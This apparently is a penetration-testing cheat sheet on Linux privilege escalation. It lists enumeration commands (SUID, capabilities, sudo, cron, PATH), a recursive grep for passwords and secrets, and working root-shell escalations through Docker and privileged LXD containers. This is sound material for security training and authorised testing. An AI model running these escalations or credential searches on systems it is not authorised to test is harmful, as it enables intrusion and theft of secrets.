 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Linux Privilege Escalation

## LinPEAS

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

## System Info

Obtain information about the system **architecture, distribution, and kernel version**.

{% code overflow="wrap" %}
```bash
uname -a  # System information
lsb_release -a  # Distribution information
getconf LONG_BIT  # System architecture
cat /proc/version  # Kernel version
cat /etc/os-release  # OS details
```
{% endcode %}

## Path

Check if you have **write permissions** for any directory in the PATH.

{% code overflow="wrap" %}
```bash
echo $PATH | tr ':' '\n' | sort -u | xargs -I{} bash -c 'if [ -w "{}" ]; then echo "[+] {}"; fi'
```
{% endcode %}

## Environment Variables

Sometimes we can find password or sensitive information in environment variables.

```bash
env  # Environment variables
set  # Shell variables
```

## Groups

List all the groups users belongs to.

```bash
id [user]
groups [user]
```

### Docker

If you belong to the **Docker group**, you could **mount the filesystem** within a container and have full access to it, allowing you to modify it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### LXD/LXC

Similar to Docker, with **LXD/LXC**, we can also **mount the filesystem** within a container, granting full access to it.

{% code overflow="wrap" %}
```bash
# On your machine, download and build an alpine image and transfer it to the host
git clone https://github.com/saghul/lxd-alpine-builder && cd lxd-alpine-builder && sudo ./build-alpine
```
{% endcode %}

<pre class="language-bash"><code class="lang-bash"><strong># Import the image
</strong>lxc image import ./alpine.tar.gz --alias privimg
# Initialize
lxd init
# Create the containter
lxc init privimg privcont -c security.privileged=true
# Mount the filesystem
lxc config device add privcont privdev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start privcont
# Interactive shell
lxc exec privcont /bin/sh
</code></pre>

## Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
# List user privileges
sudo -l
# Version
sudo -V | grep "Sudo ver"
```

## Capabilities <a href="#capabilities" id="capabilities"></a>

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

```bash
getcap -r / 2>/dev/null
```

## SUID

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

## Open Ports

```bash
ss -nltp
netstat -punta
```

## Cron Jobs

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs)

```bash
crontab -l
find / -name "cron*" 2>/dev/null
ls -l /var/log/syslog
ls -l /var/log/cron
```

## Process Monitor

{% hint style="info" %}
You can blacklist words on the `grep -Ev` section.

For example, to filter the actual user processes: `grep -Ev "kworker|$USER"`
{% endhint %}

{% code overflow="wrap" %}
```bash
while true; do new=$(ps -eo user,cmd); diff <(echo "$old") <(echo "$new") | grep -E "<|>" | grep -Ev "kworker"; old=$new; done
```
{% endcode %}

## User Files

```bash
find / -xdev -user <user> 2>/dev/null
```

## Passwords

{% code overflow="wrap" %}
```bash
grep -P -a -i -R --exclude="*."{js,css,html} "(\b\w*(pass|pwd|auth|secret)\w*\b\s*[:=]\s*\S+)|['\"]\s*\w*(pass|pwd|auth|secret)\w*\s*['\"]\s*:\s*['\"]\S+['\"]|\(\s*['\"]\w*(pass|pwd|auth|secret)\w*['\"]\s*,\s*['\"]\S+['\"]\s*\)|(\w+://\S+:\S+@)|(\\$\w{1,4}[\\$./A-Za-z0-9]{8,50})"
```
{% endcode %}

